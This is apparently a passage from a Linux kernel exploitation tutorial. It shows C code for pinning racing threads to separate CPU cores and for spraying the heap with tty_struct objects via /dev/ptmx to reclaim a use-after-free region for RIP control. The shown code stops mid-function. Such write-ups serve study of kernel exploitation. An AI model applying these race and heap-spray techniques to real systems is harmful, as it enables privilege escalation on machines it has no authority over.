 # Racing on multiple CPUs

For this race to succeed at least 2 CPU cores have to be present. The number of CPU cores can be changed in qemu configuration:
```bash
    -smp 2
```
Later I will increase CPU cores to test reliability.

For the race to be successful one thread needs to be run on one core, while the other on the other core. To make sure this is always the case, we can bind the thread to specific core. To achieve this we can use CPU sets.
```c
cpu_set_t t1_cpu, t2_cpu;

// Create CPU set
CPU_ZERO(&t1_cpu);
CPU_ZERO(&t2_cpu);
CPU_SET(0, &t1_cpu);
CPU_SET(1, &t2_cpu);
```
And then on the start of the racing function:
```c
// Limit thread to one CPU
cpu_set_t *cpu_set = (cpu_set_t*)arg;
if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set)) {
    perror("sched_setaffinity error");
}
```
With this changes the behaviour should be the same regardless of number of CPU cores present (if it's higher than 2). We can now increase number of CPU cores in qemu configuration to test how often the race succeeds.

# Heap spraying

Heap spraying on multiple CPU cores is a bit tricky. That is because SLUB allocator has cache implemented per CPU. For that reason we will use the trick mentioned before to bind thread on a single CPU and we will free previous spray allocations. I used `tty_struct` again for this heap spray but you can use whichever enables you `RIP` control.
```c
void* spray_thread(void *arg) {
    int x;
    long spray[800];

    // Limit thread to one CPU
    cpu_set_t *cpu_set = (cpu_set_t*)arg;
    if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set)) {
        perror("sched_setaffinity error");
    }

    for (int i = 0; i < 800; i++) {
        //usleep(10);

        spray[i] = open("/dev/ptmx", O_RDONLY | O_WRONLY);
        // If spray fails close all handles and return
        if (spray[i] == -1) {
            puts("[-] FAIL spray");
            for (int j = 0; j < i; j++) {
                close(spray[j]);
            }
            return (void*)-1;
        }

        // Check if spray hit the UAF area
```